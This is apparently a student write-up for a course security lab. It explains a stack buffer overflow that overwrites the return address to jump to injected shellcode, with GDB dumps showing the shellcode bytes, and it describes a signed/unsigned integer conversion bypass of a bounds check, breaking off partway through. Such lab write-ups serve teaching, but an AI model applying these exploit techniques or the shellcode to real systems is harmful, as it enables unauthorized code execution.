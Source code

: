 1. Write 20 dummy characters to overwrite buf, the compiler padding, and the sfp.

2. Overwrite the rip with the address of shellcode. Since we are putting shellcode directly after the rip, we overwrite the rip with 0xbffffc30 (0xbffffc2c + 4).

3. Finally, insert the shellcode directly after the rip.

This causes the orbit function to start executing the shellcode at address 0xbffffc30 when it returns.

## Exploit GDB Output
#### (GDB output demonstrating the before/after of the exploit working)

When we ran GDB after inputting the malicious exploit string, we got the following output:

```
(gdb) x/16x buf
0xbffffc18:  0x61616161  0x61616161  0x61616161  0x61616161
0xbffffc28:  0x61616161  0xbffffc30  0xcd58326a 0x89c38980
0xbffffc38:  0x58476ac1  0xc03180cd  0x2f2f6850  0x2f686873
0xbffffc48:  0x546e6962  0x8953505b  0xb0d231e1  0x0080cd0b
```

After 20 bytes of garbage (blue), the rip is overwritten with 0xbffffc30 (red), which points to the shellcode directly after the rip (green).

Note: you don’t need to color-code your gdb output in your writeup.

# Question 2: Spica Write-up
## Main Idea
#### (A description of the vulnerability)
The code is vulnerable because of a type mismatch between a signed int and an unsigned int. This code involves a bound check however it can be easily bypassed if the attacker provides a negative number. In the following code, if we pass in an negative number for ```size```, the bound check is of no use and when it reaches ```fread```, the function expects a size of unsigned int, however, a signed int ```size``` is provided. C silently typecasts it to an unsigned int after which it  becomes a huge positive number and through this vulnerability we can overwrite anything above msg.
```
    size_t bytes_read = fread(&size, 1, 1, file);
    if (bytes_read == 0 || size > 128)
        return;
    bytes_read = fread(msg, 1, size, file);
```

This is a Integer Conversion Vulenrability. 

## Magic Numbers
#### (How any relevant “magic numbers” were determined, usually with GDB)
We first determined the address of ```msg``` (0xffffd568) and the address of rip of ```display``` function (0xffffd5fc). This was done by invoking GDB and setting a breakpoint on line 7.
```
(gdb) x/64x msg
0xffffd568:     0x00000001      0x00000000      0x00000002      0x00000000
0xffffd578:     0x00000000      0x00000000      0x00000000      0x08048034
0xffffd588:     0x00000020      0x00000006      0x00001000      0x00000000
0xffffd598:     0x00000000      0x0804904a      0x00000000      0x000003ea
0xffffd5a8:     0x000003ea      0x000003ea      0x000003ea      0xffffd78b
0xffffd5b8:     0x0fcbfbfd      0x00000064      0x00000000      0x00000000
0xffffd5c8:     0x00000000      0x00000000      0x00000000      0x00000001
0xffffd5d8:     0x00000000      0xffffd77b      0x00000002      0x00000000
0xffffd5e8:     0x00000000      0x00000000      0x00000000      0xffffdfe2
```